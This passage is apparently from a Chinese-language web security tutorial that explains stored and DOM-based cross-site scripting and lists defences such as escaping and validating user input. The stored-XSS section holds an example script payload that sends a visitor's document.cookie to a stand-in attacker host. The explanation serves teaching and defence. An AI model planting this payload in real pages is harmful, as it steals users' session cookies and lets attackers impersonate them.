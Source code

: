 



#### 存储型 XSS

> 主要是将恶意代码上传或存储到服务器中，下次只要受害者浏览包含此恶意代码的页面就会执行恶意代码。

![img](https://gitee.com/pic_bed_of_shiva/picture/raw/master/images/dev-security-xss-3.png)

```javascript
<script>window.open("cookies.shouji.com?param="+document.cookie)</script>
```

例如，我在一个博客中嵌入如下js，那么浏览博客的用户打开后，将会执行。

1. 攻击者将恶意代码提交到目标网站数据库中。
2. 用户打开目标网站时，网站服务器将恶意代码从数据库中取出，然后拼接到html中返回给浏览器中。
3. 用户浏览器接收到响应后解析执行，那么其中的恶意代码也会被执行。
4. 那么恶意代码执行后，就能获取到用户数据，比如上面的cookie等信息，那么把该cookie发送到攻击者网站中，那么攻击者拿到该cookie然后会冒充该用户的行为，调用目标网站接口等违法操作。



防护措施：

- 后端需要对提交的数据进行过滤。
- 前端也可以做一下处理方式，比如对script标签，将特殊字符替换成HTML编码这些等。





#### DOM型 XSS

> 基于DOM的XSS攻击是反射型攻击的变种。服务器返回的页面是正常的，只是我们在页面执行js的过程中，会把攻击代码植入到页面中。



![img](https://gitee.com/pic_bed_of_shiva/picture/raw/master/images/dev-security-xss-2.png)





1. 攻击者构造出特殊的URL、在其中可能包含恶意代码。例如：`http://xxx?name=<script>alert('aaa')</script>`
2. 用户打开带有恶意代码的URL。
3. 用户浏览器收到响应后解析执行。前端使用js取出url中的恶意代码并执行。
4. 执行时，恶意代码窃取用户数据并发送到攻击者的网站中，那么攻击者网站拿到这些数据去冒充用户的行为操作。调用目标网站接口执行攻击者一些操作。



<br/>



### 防御方式

XSS 攻击其实就是代码的注入。用户的输入被编译成恶意的程序代码。所以，为了防范这一类代码的注入，需要确保用户输入的安全性。对于攻击验证，我们可以采用以下两种措施：

- **编码，就是转义用户的输入，把用户的输入解读为数据而不是代码**
- **校验，对用户的输入及请求都进行过滤检查，如对特殊字符进行过滤，设置输入域的匹配规则等**。

具体比如：

- **对于验证输入**，我们既可以在`服务端验证`，也可以在`客户端验证`
- **对于持久性和反射型攻击**，`服务端验证`是必须的，服务端支持的任何语言都能够做到
- **对于基于DOM的XSS攻击**，验证输入在客户端必须执行，因为从服务端来说，所有发出的页面内容是正常的，只是在客户端js代码执行的过程中才发生可攻击
- 但是对于各种攻击方式，**我们最好做到客户端和服务端都进行处理**。
